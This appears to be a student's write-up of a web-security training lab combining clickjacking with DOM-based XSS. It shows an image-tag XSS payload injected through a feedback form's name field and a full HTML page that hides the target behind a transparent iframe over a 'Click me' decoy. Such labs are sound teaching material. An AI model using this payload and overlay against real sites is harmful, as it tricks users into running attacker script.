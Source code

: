 # [ClickJacking] Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS (1)

---

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled.png)

first let's find a dom XSS exploit 

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%201.png)

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%202.png)

the innerHTML used in the submit feedback script isn’t properly checking 

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%203.png)

now lets try inject script tags 

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%204.png)

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%205.png)

but our script tags arent executing since we’re still in a string context

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%206.png)

URL: [https://0a4f004e044e99db82e729de00be004e.web-security-academy.net/feedback?name=<img src=x onerror="print()">&email=test@test.com&subject=test&message=test](https://0a4f004e044e99db82e729de00be004e.web-security-academy.net/feedback?name=%3Cimg%20src=x%20onerror=%22print()%22%3E&email=test@test.com&subject=test&message=test)

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%207.png)

how to fool user into submitting the payload in name of feedback form: 

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%208.png)

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%209.png)

after URL encoding the img tag this is my new URL: 

[https://0a4f004e044e99db82e729de00be004e.web-security-academy.net/feedback?name=<img src%3Dx onerror%3D"print()">&email=test@test.com&subject=test&message=test](https://0a4f004e044e99db82e729de00be004e.web-security-academy.net/feedback?name=%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%22%70%72%69%6e%74%28%29%22%3e&email=test@test.com&subject=test&message=test) 

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%2010.png)

my final CODE For payload was: 

```jsx
<head>
	<style>
		#target_website {
			position:relative;
			width:508px;
			height:1000px;
			opacity:0.10001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			left:100px;
			top:800px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	Click me
	</div>
	<iframe id="target_website" src=" https://0a4f004e044e99db82e729de00be004e.web-security-academy.net/feedback?name=%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%22%70%72%69%6e%74%28%29%22%3e&email=test@test.com&subject=test&message=test ">
	</iframe>
</body>
```

![Untitled](%5BClickJacking%5D%20Lab%20Exploiting%20clickjacking%20vulnera%202494ad908a1f4100b65eb1c35d98ef79/Untitled%2011.png)